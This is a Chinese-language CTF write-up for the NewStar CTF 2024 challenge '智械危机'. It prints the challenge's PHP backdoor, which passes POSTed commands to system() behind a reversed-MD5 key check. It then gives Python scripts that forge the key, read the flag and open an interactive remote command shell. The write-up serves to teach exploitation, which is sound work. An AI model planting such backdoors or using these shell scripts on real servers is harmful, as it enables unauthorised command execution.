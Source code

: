 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 智械危机

`index.php` 的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看 `robots.txt`，得到了路由 `/backd0or.php`

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的 PHP 代码阅读，也对编写脚本、使用 WebShell 的能力进行初步的考查。

`cmd` 参数是 **Base64 编码后**的 `system` 命令。

`key` 的验证逻辑：将<strong>`cmd` 参数值</strong>字符串翻转后，计算 MD5 哈希，并与 Base64 解码后的 `key` 进行比较。

因此我们将这个过程反过来，就可以得到解题 EXP：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

EXP 使用了 `requests` 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如 HackBar、BurpSuite 等。

<Container type="quote" title="出题人的胡诌">

请各位选手**打好编程基础，不要浮躁**。这题的代码逻辑应该懂一点英语就能够看懂了，变量名称也没做混淆。AI 可能会胡编，但是完全可以给你提取出足够的**关键词**用于搜索。
</Container>

这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag 位置没猜对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式 shell：

![交互式 Shell 示意图](/assets/images/wp/2024/week1/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
